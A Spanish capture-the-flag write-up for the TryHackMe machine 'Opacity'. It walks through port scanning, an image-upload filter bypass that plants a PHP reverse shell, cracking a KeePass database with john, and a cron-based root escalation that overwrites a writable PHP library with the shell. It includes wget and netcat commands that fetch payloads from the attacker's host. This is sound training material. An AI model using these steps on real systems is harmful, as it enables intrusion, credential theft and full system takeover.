# Opacity - TryHackMe (Fácil)

Opacity es una máquina linux de dificultad fácil de la plataforma TryHackMe.

- [Reconocimiento](#reconocimiento)
- [Enumeración](#enumeracion)
- [Explotación](#explotacion)
- [Post-Explotación](#post-explotacion)
- [Elevación de Privilegios](#elevacion-de-privilegios)

## Reconocimiento

Lo primero es hacer un escaner de puertos con Nmap.

```
sudo nmap -p- -vvv --open -n -Pn -sS -T4 10.10.107.126 -oN nmap/open-ports
```

```
PORT    STATE SERVICE      REASON
22/tcp  open  ssh          syn-ack ttl 63
80/tcp  open  http         syn-ack ttl 63
139/tcp open  netbios-ssn  syn-ack ttl 63
445/tcp open  microsoft-ds syn-ack ttl 63
```

Hacemos otro escaner para enumerar los servicios que corren por los puertos 22, 80, 139, 445.

```
nmap -p 22,80,139,445 -sVC -v -Pn -n 10.10.107.126 -oN nmap/escaner
```

Vemos que los servicios son:
- **22:** OpenSSH 8.2p1
- **80:** Apache httpd 2.4.41
- **139, 445:** Samba smbd 4.6.2

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 73:02:54:41:f6:f3:f7:d8:bc:3d:f8:5b:e2:f9:ae:e0 (RSA)
|   256 17:c9:55:ec:06:77:f6:9a:1d:8d:5d:44:cf:d5:20:26 (ECDSA)
|_  256 ab:fc:b2:88:41:a9:b6:82:70:9d:ec:10:93:c5:59:e7 (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
| http-title: Login
|_Requested resource was login.php
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
```

Analizamos la ṕagina con whatweb para ver si hay alguna tecnología que nos interese, pero no hay nada especial, solamente que la página redirige automáticamente al directorio /login.php

```
❯ whatweb http://10.10.107.126/ | tee whatweb
http://10.10.107.126/ [302 Found] Apache[2.4.41], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.107.126], RedirectLocation[login.php]
http://10.10.107.126/login.php [200 OK] Apache[2.4.41], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.107.126], PasswordField[Password], Title[Login]
```



## Enumeracion

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e .html,.php,.txt,.js,.md -u "http://10.10.107.126/FUZZ" -t 50
```

Con `ffuf` vemos que hay un directorio `/cloud`



Es una página en la que podemos subir imagenes desde una url externa.



Creamos un .png sin nada para probar que es lo que hace la página al subir una imagen.

```
touch test.png
sudo python3 -m http.server 8000
```

Vemos que hace la llamada a la url y la imagen se sube al directorio /cloud/images/



## Explotacion

La idea es subir un archivo .php para conseguir una shell reversa.

Nos descargamos el [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), un script de php para conseguir una reverse shell.

Cambiamos la ip por la nuestra y ponemos un puerto, en este caso el 4444.



Hay que pensar como funciona el código por detras. 
Probablemente sea algo asi: Llamada a la url => Se comprueba si el nombre del archivo termina en .png, .jpg, .gif o cualquier otra extensión de imagen => Descarga el archivo y lo guarda en `/cloud/images/`

Lo que podemos hacer es poner la url de esta forma http://10.9.2.157:8000/shell.php .jpg
De esta forma detectará que la url termina en .jpg pero a la hora de guardarlo lo guardara como shell.php, despues de procesar la url la cual verdaderamente es http://10.9.2.157:8000/shell.php

Escuchamos en el puerto 4444 con `nc -lvnp 4444` y ejecutamos `curl http://10.10.107.126/cloud/images/shell.php`

Y obtenemos la shell reversa.

## Post-Explotacion

Estabilizamos la shell con los siguientes comandos:

```
script -qc /bin/bash /dev/null
Ctrl + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```

## Elevacion de privilegios

Dentro de /opt hay un archivo `dataset.kdbx`



Montamos un servidor http con python para descargarlo en la máquina atacante.

`python3 -m http.server 8181`

`wget http://10.10.107.126:8181/dataset.kdbx`

Vemos que el archivo es una base de datos de Keepass 2.

```
❯ file dataset.kdbx
dataset.kdbx: Keepass password database 2.x KDBX
```

Nos instalamos Keepass2

`sudo apt-get install keepass2`

Al abrir el archivo vemos que esta protegido con contraseña.



Para crackear la contraseña creamos el hash con keepass2john y la crackeamos con john.

```
keepass2john dataset.kdbx > hash.txt
john -w=/usr/share/wordlists/rockyou.txt hash.txt --format=KeePass
```



Introducimos la contraseña y vemos que en la base de datos esta la password del usuario sysadmin.



Nos cambiamos al usuario sysadmin.



Dentro de `/home/sysadmin` tenemos una carpeta `/scripts`



Dentro hay un archivo `script.php` vemos que lo que hace es crear un .zip de la carpeta `/scripts`



Descargamos en la máquina victima el archivo [pspy64](https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64) para ver si algún comando se ejecuta en tiempo real.

```
//Máquina atacante
sudo python3 -m http.server 8000 

//Máquina victima
wget http://10.9.2.157:8000/pspy64
chmod +x pspy64
./pspy64
```

Vemos que cada minuto el usuario root ejecuta el archivo script.php



No tenemos permisos de escritura en `script.php` pero este script carga una librería de php `lib/backup.php` y este archivo si que tiene permisos de escritura, por lo que:

1. Cambiamos el puerto en el archivo `shell.php`.
2. Montamos un servidor con python.
3. Nos ponemos en escucha por el puerto de hayamos puesto en `shell.php`
3. Descargamos el archivo shell.php.
4. Eliminamos el archivo `lib/backup.php`.
5. Cambiamos el nombre de `shell.php` por `lib/backup.php`.


```
//Máquina atacante
nvim shell.php
sudo python3 -m http.server 8000
nc -lvnp 4433

//Máquina victima
wget http://10.9.2.157:8000/shell.php
rm lib/backup.php
mv shell.php lib/backup.php
```

Esperamos un minuto y obtenemos la shell como usuario root.

